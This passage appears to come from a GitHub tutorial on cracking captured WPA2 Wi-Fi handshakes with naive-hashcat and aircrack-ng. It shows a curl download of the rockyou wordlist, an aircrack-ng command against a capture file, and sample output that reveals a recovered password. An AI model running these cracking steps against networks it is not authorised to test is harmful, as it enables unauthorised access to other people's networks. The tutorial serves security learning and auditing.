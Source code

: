 Naive-hashcat uses various [dictionary](https://hashcat.net/wiki/doku.php?id=dictionary_attack), [rule](https://hashcat.net/wiki/doku.php?id=rule_based_attack), [combination](https://hashcat.net/wiki/doku.php?id=combinator_attack), and [mask](https://hashcat.net/wiki/doku.php?id=mask_attack) (smart brute-force) attacks and it can take days or even months to run against mid-strength passwords. The cracked password will be saved to hackme.pot, so check this file periodically. Once you've cracked the password, you should see something like this as the contents of your `POT_FILE`:

```
e30a5a57fc00211fc9f57a4491508cc3:9c5c8ec9abc0:acd1b8dfd971:ASUS:hacktheplanet
```

Where the last two fields separated by `:` are the network name and password respectively.

If you would like to use `hashcat` without `naive-hashcat` see [this page](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2) for info.

#### Cracking With Aircrack-ng

Aircrack-ng can be used for very basic dictionary attacks running on your CPU. Before you run the attack you need a wordlist. I recommend using the infamous rockyou dictionary file:

```bash
# download the 134MB rockyou dictionary file
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

Note, that if the network password is not in the wordfile you will not crack the password.

```bash
# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```

If the password is cracked you will see a `KEY FOUND!` message in the terminal followed by the plain text version of the network password.

```
                                 Aircrack-ng 1.2 beta3


                   [00:01:49] 111040 keys tested (1017.96 k/s)


                         KEY FOUND! [ hacktheplanet ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```

